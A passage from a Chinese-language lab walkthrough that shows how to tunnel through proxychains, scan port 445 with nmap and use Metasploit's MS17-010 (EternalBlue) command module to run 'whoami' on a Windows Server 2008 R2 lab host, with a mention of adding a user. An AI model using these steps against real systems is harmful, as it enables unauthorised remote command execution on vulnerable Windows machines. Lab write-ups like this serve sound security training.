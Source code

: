 最后改为

```
socks5 127.0.0.1 1080
```

![image-20241211145535694](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111455784.png)

扫描192.168.247.130（windows server 2008 R2 的ip）445端口

(永恒之蓝攻击主要利用445和139端口)

扫描可以看见端口445 OK（说明open）

```
nmap -sT -Pn -p 445 192.168.247.130
```

![image-20241210231558020](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441588.png)

```
proxychains msfconsole
```

启用MSF

![image-20241210231656182](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441584.png)

```
use auxiliary/admin/smb/ms17_010_command
```

用该模块在网段里搜索容易被MS17-010漏洞影响的Windows主机

![image-20241210231843922](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441594.png)

```
set rhosts 192.168.247.130
```

![image-20241210231831010](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441598.png)

set command + 指令

相当设定发给rhosts ip 的指令，

run运行发送

这里相当于发送whoami给windows server，返回系统用户名

```
set command whoami

run
```

![image-20241210231917436](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441602.png)

这个是新增用户(不过这里没run)
